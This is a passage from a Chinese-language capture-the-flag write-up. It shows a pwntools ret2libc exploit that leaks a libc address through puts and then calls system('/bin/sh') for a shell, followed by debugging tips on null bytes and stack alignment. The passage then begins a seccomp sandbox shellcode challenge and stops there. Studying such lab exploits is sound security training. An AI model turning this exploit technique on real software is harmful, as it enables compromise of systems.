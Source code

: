 ```python
payload1 += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
io.sendlineafter(b'your name?\n', payload1)
io.recvuntil(b'XDSEC!\n')
puts_real = u64(io.recvline()[:-1].ljust(8,b'\x00'))
libc_base = puts_real - puts_offset
system_addr = libc_base + libc.symbols[b'system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

# get shell
io.sendline(b'yes')
payload2 = b'a'*0x18 + b'bbbbbbb\x00' + p64(0)
payload2 += p64(pop_rdi_ret) + p64(binsh_addr) + p64(ret) + p64(system_addr)
io.sendlineafter(b'your name?\n', payload2)

io.interactive()
```

### Tips

被坑惨了...这才是这题教会我的东西

1. printf遇到\x00会停止，但scanf不会，所以尽管最后会得到这样的输出，但实际上后面的字节也发送出去了

   ```shell
   [*] Switching to interactive mode
   Oh dear 'aaaaaaaaaaaaaaaaaaaaaaaabbbbbbb', I hope one day you can be a god of XDSEC!
   ```

2. 如果payload2中不加上p64(ret)，打出去后会发生段错误，必须在本地调试才能得到错误信息

   详情见[这个stackoverflow上的提问](https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call)



## Shellcode

### Challenge

sandbox题，程序逻辑相当简单，直接执行我们输入的代码，但这几行限制了系统调用

```c
if ( prctl(38, 1LL, 0LL, 0LL, 0LL) < 0 )
  {
    perror("prctl(PR_SET_NO_NEW_PRIVS)");
    exit(2);
  }
  if ( prctl(22, 2LL, &v1) < 0 )
  {
    perror("prctl(PR_SET_SECCOMP)");
    exit(2);
  }
```

用seccomp-tools可以查看具体限制了哪些系统调用
